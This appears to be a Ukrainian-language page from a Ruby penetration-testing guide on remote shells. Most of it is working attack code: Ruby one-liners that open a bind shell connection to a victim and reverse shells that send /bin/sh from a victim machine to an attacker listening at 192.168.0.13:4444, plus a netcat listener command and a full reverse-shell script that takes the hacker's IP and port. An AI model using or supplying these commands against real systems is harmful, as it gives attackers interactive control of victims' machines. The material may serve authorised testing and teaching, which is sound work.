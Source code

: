 # Віддалений Шел 

Віддалений шел означає перенаправлення чи реверсивне з'єднання з командним рядком(шелом) віддаленої атакованої машини. 

**Зверніть увагу** для комп'ютерів з Windows заміняйте "/bin/sh" на "cmd.exe"

## Підключення до прив'яханого(Bind) шелу
з Терміналу
```ruby
ruby -rsocket -e's=TCPSocket.new("VictimIP",4444);loop do;cmd=gets.chomp;s.puts cmd;s.close if cmd=="exit";puts s.recv(1000000);end'
```
де `192.168.0.15` - IP адреса атакованої машини.

## Зворотній, реверсивний шел
Атакуючий слухає на порту 4444 `nc -lvp 4444`. Тепер на атакованій машині виконайте наступне:
```ruby
ruby -rsocket -e's=TCPSocket.open("192.168.0.13",4444).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",s,s,s)'
```

Якщо ви не бажаєте покладатися на `/bin/sh`:

```ruby
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("192.168.0.13","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

Якщо ви не бажаєте покладатися на `cmd.exe`
```ruby
ruby -rsocket -e 'c=TCPSocket.new("192.168.0.13","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

де `192.168.0.13` - IP адреса атакуючої машини.

І якщо вам потрібен більш  гнучкий скрипт:

```ruby
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
require 'socket'
if ARGV[0].nil? || ARGV[1].nil?
    puts "ruby #{__FILE__}.rb [HACKER_IP HACKER_PORT]\n\n"
    exit
end
ip, port = ARGV
s = TCPSocket.open(ip,port).to_i
exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",s,s,s)
```

## Прив'язаний(bind) та зворотній(reverse) шели 
Ось чудова реалізація скрипту для прив'язки[bind][1] та створення реверсивного[reverse][2] шелу написаниго [Hood3dRob1n][3]. Bind шел потрубеє аутентифікації в той час як реверсійний - ні.



<br><br><br>
---
[1]: https://github.com/Hood3dRob1n/Ruby-Bind-and-Reverse-Shells/blob/master/bind.rb
[2]: https://github.com/Hood3dRob1n/Ruby-Bind-and-Reverse-Shells/blob/master/rubyrev.rb
[3]: https://github.com/Hood3dRob1n/Ruby-Bind-and-Reverse-Shells
